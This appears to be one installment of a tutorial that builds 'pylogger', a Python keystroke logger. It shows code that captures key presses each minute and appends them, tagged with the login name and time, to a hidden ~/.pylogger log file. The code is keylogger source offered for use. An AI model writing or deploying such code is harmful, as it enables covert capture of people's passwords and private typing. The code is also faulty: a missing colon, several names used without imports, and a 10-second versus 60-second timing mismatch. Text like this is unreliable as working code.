

## Write Don't Print

A log shouldn't print to STDOUT, it should append to an existing log file.

More modifications:

## The Setup

We need to write to a specific file. So let's check for an existing directory, and if it doesn't exist create it. Similarly, let's create a function to append a line to a file.

### Imports

```python
from os import mkdir, environ
from os.path import exists
```

### Check for Directory

```python
def check_make_directory(dir_path)
    if not exists(dir_path):
        mkdir(dir_path)
```

### Append Line to File

```python
def append_line(filepath, line):
    with open(filepath, 'a') as the_file:
        the_file.write(f"{line}\n")
```

## The Code

Let's use these new functions:

```python
if __name__ == "__main__":
    log_dir = f"{environ['HOME']}/.pylogger"
    log_file = f"{log_dir}/log"
    check_make_directory(log_dir)
    while True:
        log = []
        listener = keyboard.Listener(on_press=on_press)
        listener.start()
        sleep(60)
        listener.stop()
        log_line = f"{getlogin()} -- {asctime(localtime())}: {''.join(log)}"
        append_line(log_file, log_line)
```

That'll probably do it.

## Validation



It created the directory, the log file and started dumping logs into the file.

Looking at the log timestamps it is recording every 10 seconds, we can simply update the `sleep()` function to wait for however long we want our logs to last, I would choose 60 seconds.

## Source Code Snapshot

[GitHub repo at this point in time](https://github.com/pdmxdd/pylogger/blob/6cf0f7d05b5a143558c0bc1a6afdfefebf6588b7/pylogger/main.py)